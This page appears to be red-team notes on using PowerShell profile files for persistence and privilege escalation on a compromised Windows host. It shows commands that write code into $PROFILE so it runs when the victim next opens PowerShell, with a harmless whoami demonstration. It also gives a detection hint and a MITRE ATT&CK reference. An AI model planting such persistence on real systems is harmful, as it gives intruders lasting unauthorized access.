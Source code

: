 # Powershell Profile Persistence

It's possible to use powershell profiles for persistence and/or privilege escalation.

## Execution

There are four places you can abuse the powershell profile, depending on the privileges you have:

```csharp
$PROFILE | select *
```

![](../../.gitbook/assets/image%20%28101%29.png)

Let's add the code to a `$profile` variable \(that expands to the current user's profile file\) that will get executed the next time the compromised user launches a powershell console:

{% code-tabs %}
{% code-tabs-item title="attacker@target" %}
```csharp
echo "whoami > c:\temp\whoami.txt" > $PROFILE
cat $PROFILE
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/image%20%2828%29.png)

Once the compromised user launches powershell, our code gets executed:

![](../../.gitbook/assets/image%20%28168%29.png)

{% hint style="warning" %}
If the user is not using profiles, the technique will stick out immediately due to the "loading personal and system profiles..." message at the top.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/techniques/T1504/" %}


